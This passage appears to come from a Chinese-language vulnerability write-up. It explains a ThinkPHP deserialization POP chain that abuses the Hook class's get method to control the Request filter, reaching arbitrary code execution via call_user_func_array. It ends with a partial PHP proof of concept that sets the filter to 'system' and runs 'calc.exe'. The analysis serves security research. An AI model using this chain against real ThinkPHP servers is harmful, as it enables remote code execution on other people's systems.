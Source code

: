     .......
    return $data;
} 
``` 
```

$this->param=array_merge($this->param, $this->get(false), $vars, $this->route(false));是直接从url中获取参数。
$this->config->get('var_ajax')也是可控的。但是他和5.1.38不同的是，5.1.38的方法是$this->config['var_ajax'],所以导致不能用数组直接操控config值。
我的解决办法是从源码中查找含有get函数的类,通过pop链的方式操控config的值。 最后发现\think\Hook.php的Hook类存在get方法

```
public function get($tag = '')
    {
        if (empty($tag)) {
            //获取全部的插件信息
            return $this->tags;
        } else {
            return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
        }
    } 
```

由上面代码可以看出，程序会判断传入的$tag是否为空，不为空的话会返回传入参数在tags数组中对应的值。private $tags = ["var_ajax"=>'a'];类似于这种形式，便可以操控$this->config->get('var_ajax')的值。
由此$filter和$value都是可控的。所以可以通过filterValue方法中的call_user_func_array任意代码执行。

### poc

```
<?php
namespace think;
abstract class Model
{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["a"=>["calc.exe"]];
        $this->data = ["a"=>new Request()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model
{
}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think;
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
```